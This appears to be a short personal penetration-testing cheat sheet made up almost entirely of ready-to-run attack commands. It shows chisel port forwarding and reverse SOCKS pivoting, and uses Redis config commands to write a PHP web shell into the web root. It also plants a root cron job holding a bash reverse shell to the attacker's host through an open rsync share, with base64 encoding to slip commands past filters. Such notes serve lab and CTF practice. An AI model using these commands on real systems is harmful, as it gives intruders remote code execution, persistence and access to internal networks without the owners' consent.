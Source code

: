 **In Kali**:
```bash
chisel server -p 8000
```

**In target**:
```bash
chisel client <kali ip>:<port> 9001:127.0.0.1:8001
# this open the 9001 of the target and tunnel with our 8001 port

chisel client <kali ip>:<port> 9001:1< another target ip >:445
# to open a windows box through tunneling
```

```bash
telnet or nc localhost <port>
flushall
set AnyText "<? system($_REQUEST['cmd']); ?>"
config set dbfilename shell.php
config set dir /var/www/html/

Then we can open in the browser ip/shell.php?cmd=<command> 
# problably what we want is a reverse shell
# so we cam grab in pentest monkey
```


Do a CRONJOB in target:
```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<kali ip>/<port> 0>&1'" > runme
```

send with rsync:
```bash
rsync -a runme rsync://backup:873/src/etc/cron.d/runme
```

We can send commands base64 encoded, if the shell of the target machine is not accepting out request;
```bash
bash -c 'bash -i >& /dev/tcp/<kali ip>/<port> 0>&1' | base64
```

get the output:
```bash
echo "* * * * * root bash -c 'output in base64 | base64 -d" > runme
```

## REVERSE SOCKS

**In Kali**:
```bash
chisel server -p 8000 -reverse -v
```

**In Target**:
```bash
chisel client <kali ip>:8000 R:8001:127.0.0.1:1337
chisel server -p 1337 --socks5
```

> Will redirect everything from our port 8001 to port 1337 of the target

**In Kali again**:
```bash
chisel client 127.0.0.1:8001 socks
```
